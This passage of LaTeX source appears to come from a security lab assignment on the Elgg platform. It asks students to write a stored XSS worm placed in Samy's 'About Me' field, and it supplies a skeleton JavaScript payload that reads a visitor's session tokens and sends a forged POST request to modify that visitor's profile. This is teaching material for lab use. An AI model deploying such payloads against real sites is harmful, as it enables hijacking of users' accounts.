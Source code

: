 The objective of this task is to modify the victim's profile when the victim visits Samy's
page.  We will write an XSS worm to complete the task. This worm does not self-propagate; in
task 6, we will make it self-propagating.

Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP
requests directly from the victim's browser, without the intervention of the attacker.  
To modify profile, we should first find out how a legitimate 
user edits or modifies his/her profile in {\tt Elgg}. More specifically, we need to figure out
how the HTTP POST request is constructed to modify a user's profile.  
We will use Firefox's {\tt HTTP} inspection tool. Once we understand 
how the modify-profile HTTP POST request looks like, we can
write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript
code that aids in completing the task.

\begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST",sendurl,true);
     Ajax.setRequestHeader("Host","www.xsslabelgg.com");
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

